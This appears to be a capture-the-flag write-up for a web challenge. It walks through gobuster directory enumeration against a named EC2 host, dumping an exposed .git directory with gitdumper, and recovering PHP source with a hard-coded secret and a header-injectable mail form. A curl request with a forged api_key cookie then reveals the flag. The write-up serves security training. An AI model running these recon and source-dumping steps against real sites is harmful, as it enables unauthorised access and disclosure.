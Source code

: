 ## COMRADE III
```
Hey Comrade , World War III will begin soon , we need to reveal what was hidden.
```
- Link: http://ec2-35-158-236-11.eu-central-1.compute.amazonaws.com/comrade/

#### Solve:

- Step 1

    - By running the following command:
        ```commandline
        gobuster dir -u http://ec2-35-158-236-11.eu-central-1.compute.amazonaws.com/comrade/ -w /usr/share/wordlists/dirb/common.txt
        ```
    
    - The result of gobuster:
        ```
        /.git/HEAD (Status: 200)
        /index.php (Status: 200)
        ```
    
    - We are interested in the files with status *200*
        ```commandline
        /.git/HEAD
        ```
- Step 2

    - Dumping *.git* by using [GitTools](https://github.com/internetwache/GitTools.git) *Dumper*
        ```commandline
        ./gitdumper.sh http://ec2-35-158-236-11.eu-central-1.compute.amazonaws.com/comrade/.git/ comrade
        ```
        where MaximumCourage is the dest-dir
        
    - Extracting info manually
        
        by running
        ```commandline
        >> cd comrade/ && git status
      
        On branch master
        Changes not staged for commit:
        (use "git add/rm <file>..." to update what will be committed)
        (use "git restore <file>..." to discard changes in working directory)
          deleted:    api.php
          deleted:    contact_process.php
          deleted:    index.php
          deleted:    x.jpg
        ```
        as we can see that there are multiple php files that we can restore
        
    - Restoring the flag
    
        by running
        ```commandline
        >> git restore .
        >> ls
        api.php  contact_process.php  index.php
        ```
        
        - the *"index.php"* is not useful in this case, so we will ignore it
    
    - But by looking at the *"api.php"*
        ```commandline
        >> cat api.php
      
        <?php
        include('./access.php');
        include('./index.php');
        if($_COOKIE['api_key'] == $apikey) 
        echo "Flag: $flag";
        ```
      
        - we can see that the api will reveal the flag once we have a "api_key" cookie equals to some value we don't know yet.
    
    - But by looking at the *"contact_process.php"*
    
        ```commandline
        >> cat contact_process.php
      
        <?php
        
            $to = "comrade1995@gmail.com";
            $from = $_REQUEST['email'];
            $name = $_REQUEST['name'];
            $subject = $_REQUEST['subject'];
            $number = $_REQUEST['number'];
            $cmessage = $_REQUEST['message'];
        
            $headers = "From: $from";
                $headers = "From: " . $from . "\r\n";
                $headers .= "Reply-To: ". $from . "\r\n";
                $headers .= "MIME-Version: 1.0\r\n";
                $headers .= "Content-Type: text/html; charset=ISO-8859-1\r\n";
        
            $subject = "You have a message from your Bitmap Photography.";
        
            $logo = 'img/logo.png';
            $link = '#';
                $access = bin2hex('this_is_top_secret');
                $body = "<!DOCTYPE html><html lang='en'><head><meta charset='UTF-8'><title>Express Mail</title></head><body>";
                $body .= "<table style='width: 100%;'>";
                $body .= "<thead style='text-align: center;'><tr><td style='border:none;' colspan='2'>";
                $body .= "<a href='{$link}'><img src='{$logo}' alt=''></a><br><br>";
                $body .= "</td></tr></thead><tbody><tr>";
                $body .= "<td style='border:none;'><strong>Name:</strong> {$name}</td>";
                $body .= "<td style='border:none;'><strong>Email:</strong> {$from}</td>";
                $body .= "</tr>";
                $body .= "<tr><td style='border:none;'><strong>Subject:</strong> {$csubject}</td></tr>";
                $body .= "<tr><td></td></tr>";
                $body .= "<tr><td colspan='2' style='border:none;'>{$cmessage}</td></tr>";
                $body .= "</tbody></table>";
                $body .= "</body></html>";
        
            $send = mail($to, $subject, $body, $headers);
        
        ?>
        ```
      
        - NOTICE: that the *$access* variable is declared and assigned to a value, but actually it's not used anywhere in the code.
    
- Step 3
    
     - Now we need to know the value of the *$access* variable, so we can do something like this
         
       ```commandline
         >> echo "<?php echo bin2hex('this_is_top_secret'); ?>" > access.php && php access.php
         746869735f69735f746f705f736563726574
         ```
     
     - We got the value *746869735f69735f746f705f736563726574* of the *$access* variable.
     
     - Next, we need to set a cookie *api_key* to the value of the *$access* variable and make a request to the *api.php*.

     - In this case, *curl* is our friend:
        ```commandline
        curl http://ec2-35-158-236-11.eu-central-1.compute.amazonaws.com/comrade/api.php --cookie "api_key=746869735f69735f746f705f736563726574"
        ```
       
        - Result:
        ```html
        <!DOCTYPE html>
        <head>
            <title>COMRADE |||</title>
        </head>
        <body style="margin:0px;padding:0px;background-color:#000;color:#01ba17">
            <div style="padding:100px;width:70%;margin: 0px auto;font-size:26px;">
            <img src="./x.jpg" style="width:30%;height:30%;">
            <div style="padding:100px;width:30%; display:inline;">Welcome Comrade</div>
            </div>
            
        </body>
        </html><center><h3>Flag{g!7_!5_4w350m3_XD!!}
        ```

> **Flag: Flag{g!7_!5_4w350m3_XD!!}**

##### Notice: we didn't focus on the jpg file as it's a corrupted file, we need't to bother ourselves to deal with it as it's a web challenge
